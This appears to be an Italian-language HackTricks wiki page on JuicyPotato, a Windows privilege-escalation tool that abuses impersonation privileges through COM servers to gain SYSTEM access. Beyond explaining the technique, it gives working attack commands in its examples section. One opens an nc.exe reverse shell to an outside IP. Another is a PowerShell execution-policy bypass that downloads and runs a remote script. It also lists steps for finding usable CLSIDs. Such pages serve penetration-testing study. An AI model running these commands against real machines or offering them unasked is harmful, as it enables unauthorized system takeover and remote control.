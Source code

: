 # JuicyPotato

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="warning" %}
**JuicyPotato non funziona** su Windows Server 2019 e Windows 10 build 1809 e successivi. Tuttavia, [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato) possono essere utilizzati per **sfruttare gli stessi privilegi e ottenere accesso a livello `NT AUTHORITY\SYSTEM`**. _**Controlla:**_
{% endhint %}

{% content-ref url="roguepotato-and-printspoofer.md" %}
[roguepotato-and-printspoofer.md](roguepotato-and-printspoofer.md)
{% endcontent-ref %}

## Juicy Potato (abusing the golden privileges) <a href="#juicy-potato-abusing-the-golden-privileges" id="juicy-potato-abusing-the-golden-privileges"></a>

_Versione zuccherata di_ [_RottenPotatoNG_](https://github.com/breenmachine/RottenPotatoNG)_, con un po' di succo, cioè **un altro strumento di escalation dei privilegi locali, da un Windows Service Accounts a NT AUTHORITY\SYSTEM**_

#### Puoi scaricare juicypotato da [https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts)

### Summary <a href="#summary" id="summary"></a>

[**Dal Readme di juicy-potato**](https://github.com/ohpe/juicy-potato/blob/master/README.md)**:**

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) e le sue [varianti](https://github.com/decoder-it/lonelypotato) sfruttano la catena di escalation dei privilegi basata sul [`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx) [servizio](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126) avendo il listener MiTM su `127.0.0.1:6666` e quando hai privilegi `SeImpersonate` o `SeAssignPrimaryToken`. Durante una revisione della build di Windows abbiamo trovato una configurazione in cui `BITS` era intenzionalmente disabilitato e la porta `6666` era occupata.

Abbiamo deciso di armare [RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG): **Dì ciao a Juicy Potato**.

> Per la teoria, vedi [Rotten Potato - Privilege Escalation from Service Accounts to SYSTEM](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) e segui la catena di link e riferimenti.

Abbiamo scoperto che, oltre a `BITS`, ci sono diversi server COM che possiamo sfruttare. Devono solo:

1. essere istanziabili dall'utente corrente, normalmente un "utente di servizio" che ha privilegi di impersonificazione
2. implementare l'interfaccia `IMarshal`
3. essere eseguiti come un utente elevato (SYSTEM, Administrator, …)

Dopo alcuni test abbiamo ottenuto e testato un elenco esteso di [CLSID interessanti](http://ohpe.it/juicy-potato/CLSID/) su diverse versioni di Windows.

### Juicy details <a href="#juicy-details" id="juicy-details"></a>

JuicyPotato ti consente di:

* **Target CLSID** _scegli qualsiasi CLSID tu voglia._ [_Qui_](http://ohpe.it/juicy-potato/CLSID/) _puoi trovare l'elenco organizzato per OS._
* **COM Listening port** _definisci la porta di ascolto COM che preferisci (invece della hardcoded 6666)_
* **COM Listening IP address** _collega il server a qualsiasi IP_
* **Process creation mode** _a seconda dei privilegi dell'utente impersonato puoi scegliere tra:_
* `CreateProcessWithToken` (richiede `SeImpersonate`)
* `CreateProcessAsUser` (richiede `SeAssignPrimaryToken`)
* `entrambi`
* **Process to launch** _lancia un eseguibile o uno script se lo sfruttamento ha successo_
* **Process Argument** _personalizza gli argomenti del processo lanciato_
* **RPC Server address** _per un approccio furtivo puoi autenticarti a un server RPC esterno_
* **RPC Server port** _utile se vuoi autenticarti a un server esterno e il firewall blocca la porta `135`…_
* **TEST mode** _principalmente per scopi di test, cioè testare i CLSID. Crea il DCOM e stampa l'utente del token. Vedi_ [_qui per il test_](http://ohpe.it/juicy-potato/Test/)

### Usage <a href="#usage" id="usage"></a>
```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```
### Pensieri finali <a href="#final-thoughts" id="final-thoughts"></a>

[**Dal Readme di juicy-potato**](https://github.com/ohpe/juicy-potato/blob/master/README.md#final-thoughts)**:**

Se l'utente ha i privilegi `SeImpersonate` o `SeAssignPrimaryToken`, allora sei **SYSTEM**.

È quasi impossibile prevenire l'abuso di tutti questi server COM. Potresti pensare di modificare i permessi di questi oggetti tramite `DCOMCNFG`, ma buona fortuna, sarà una sfida.

La soluzione reale è proteggere gli account e le applicazioni sensibili che vengono eseguiti sotto gli account `* SERVICE`. Fermare `DCOM` inibirebbe certamente questo exploit, ma potrebbe avere un impatto serio sul sistema operativo sottostante.

Da: [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

## Esempi

Nota: Visita [questa pagina](https://ohpe.it/juicy-potato/CLSID/) per un elenco di CLSID da provare.

### Ottieni una shell inversa nc.exe
```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```
### Powershell rev
```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
### Avvia un nuovo CMD (se hai accesso RDP)

![](<../../.gitbook/assets/image (300).png>)

## Problemi con CLSID

Spesso, il CLSID predefinito che JuicyPotato utilizza **non funziona** e l'exploit fallisce. Di solito, ci vogliono più tentativi per trovare un **CLSID funzionante**. Per ottenere un elenco di CLSID da provare per un sistema operativo specifico, dovresti visitare questa pagina:

{% embed url="https://ohpe.it/juicy-potato/CLSID/" %}

### **Controllo dei CLSID**

Prima, avrai bisogno di alcuni eseguibili oltre a juicypotato.exe.

Scarica [Join-Object.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1) e caricalo nella tua sessione PS, e scarica ed esegui [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1). Quel script creerà un elenco di possibili CLSID da testare.

Poi scarica [test\_clsid.bat ](https://github.com/ohpe/juicy-potato/blob/master/Test/test\_clsid.bat)(cambia il percorso per l'elenco CLSID e per l'eseguibile juicypotato) ed eseguilo. Inizierà a provare ogni CLSID, e **quando il numero di porta cambia, significherà che il CLSID ha funzionato**.

**Controlla** i CLSID funzionanti **utilizzando il parametro -c**

## Riferimenti

* [https://github.com/ohpe/juicy-potato/blob/master/README.md](https://github.com/ohpe/juicy-potato/blob/master/README.md)


{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
